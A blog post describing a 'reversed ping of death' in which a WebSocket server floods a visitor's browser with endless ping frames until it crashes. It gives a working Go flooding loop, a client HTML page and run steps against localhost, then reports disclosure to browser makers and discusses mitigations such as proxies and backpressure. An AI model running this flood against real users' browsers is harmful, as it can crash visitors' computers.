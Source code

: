 ```yaml
---
title: WebSockets Reversed Ping of Death
published: 2025-06-09
draft: false
lang: en
description: WebSockets Reversed Ping of Death
tags: []
---
```


**Warning:** The following action may cause a visitor’s browser or even their computer to crash. This information is provided for educational purposes only. Use it responsibly.

I do not encourage or condone the misuse of this knowledge, and I disclaim any responsibility for any damage, disruption, or unintended consequences resulting from its use. Proceed at your own risk.

---

One of the first things someone learns in martial arts is that when you hold someone, that someone holds you too. If, for example, that someone falls on purpose while you’re holding them tightly, chances are you might fall too.

Even though there isn’t a special name for this idea, it can be found in Aiki martial arts principle, where the main point is that the opponent’s energy becomes a tool in your hands if you redirect it wisely.

When you write a program that handles WebSocket connections, one of the main security concerns is preventing a client from flooding you with messages or pings with bad intentions.

But what if I told you that, on the other side, no browser checks if someone attacks with abnormal load of WebSocket messages or pings in bad faith — and just ends up crashing?

---

You can easily test this yourself:

1. Bookmark this page first, so you can return after a crash.

2. Write a Go program that opens a WebSocket connection and continuously sends pings in a highly repetitive loop:

```go
// main.go
package main

import (
    "log"
    "github.com/gorilla/websocket"
)

func main() {
    url := "ws://localhost:3001"
    conn, _, err := websocket.DefaultDialer.Dial(url, nil)
    if err != nil {
        log.Fatal("Error connecting to WebSocket:", err)
    }
    defer conn.Close()

    for {
        err := conn.WriteMessage(websocket.PingMessage, nil)
        if err != nil {
            log.Println("Error sending ping:", err)
            return
        }
    }
}
```

3. Write an HTML page that connects to this WebSocket connection:

```html
<!-- index.html -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>WebSocket Reversed Ping of Death</title>
</head>
<body>
    <h1>WebSocket Reversed Ping of Death</h1>

    <script>
        const socket = new WebSocket("ws://localhost:3001/ws");

        socket.onerror = (error) => {
            console.error("WebSocket error:", error);
        };

        socket.onopen = () => {
            console.log("WebSocket connected.");
        };

        socket.onclose = () => {
            console.log("WebSocket closed.");
        };

        socket.onmessage = (event) => {
            console.log("WebSocket received:", event.data);
        };
    </script>
</body>
</html>
```

4. Run the Go program:

```bash
go mod init main
go mod tidy
go run main.go
```

5. Start a simple HTTP server to serve `index.html`:
   (If port 3002 is not available, pick another one, e.g., 3003…)

```bash
python3 -m http.server 3002
```

6. Open the page in your browser. For example:
   (If port 3002 was not available, use the other port you picked)

```
http://localhost:3002
```

---

Of course, the reason I’m writing these lines is not to enable script kiddies to annoy others, but to highlight a problem and propose a solution. Just to clarify, I am publishing this article only after having contacted major browser developers and submitted bug reports to ensure better client-side security checks for everyone.

Until all browsers implement a check, you can take care of yourself, by:

* If visiting a site crashed your computer, be aware that it’s possible and that it may be just this method described above used. Don’t panic and don’t believe everything.
* If you develop an application that depends on a third-party WebSocket, then make sure that you really trust the provider of it.

---

It’s the browsers that need to protect you from such a problem since the WebSocket API of them (which is kind of the same across all of them) doesn’t expose you the pings. This means that even if you write code that may find abnormal load of messages — good, perfect — but… you will never be able to see an abnormal load of pings, as you don’t get them at all like they don’t exist.

Using a custom proxy made to bypass and check the connection could be a real solution, as a proxy being a whole program, freed from the limitations of browsers, could detect abnormal loads of everything, including pings and kill the connection if needed.

I don’t provide the code to such a thing because this is simply opening other problems like what if someone abuses your proxy, so it’s a solution that needs to be implemented carefully and maybe customized.

---

Back to browsers, it’s worth noting that there are actually two other ways to have a WebSocket connection that claim to try to solve such problems. Well, they don’t talk exactly about the problem above (especially with the ping case), but they talk about almost the same and they call it **“backpressure”**. From Mozilla Developer Network:

> **Backpressure**
> An important concept in streams is backpressure — this is the process by which a single stream or a pipe chain regulates the speed of reading/writing. When a stream later in the chain is still busy and isn't yet ready to accept more chunks, it sends a signal backwards through the chain to tell earlier transform streams (or the original source) to slow down delivery so that you don't end up with a bottleneck anywhere.

Those two other ways are **WebTransport API** and **Streams API**. Both are great but very fresh, in contrast to the WebSocket API which has been around for more than a decade. They are so fresh that the first is not supported by Safari and the second is not supported by Firefox. And even the browsers that support one or the other do so only in very recent versions (and experimentally, I would guess).

---

\[Reference]
[https://developer.mozilla.org/en-US/docs/Web/API/Streams\_API/Concepts#backpressure](https://developer.mozilla.org/en-US/docs/Web/API/Streams_API/Concepts#backpressure)
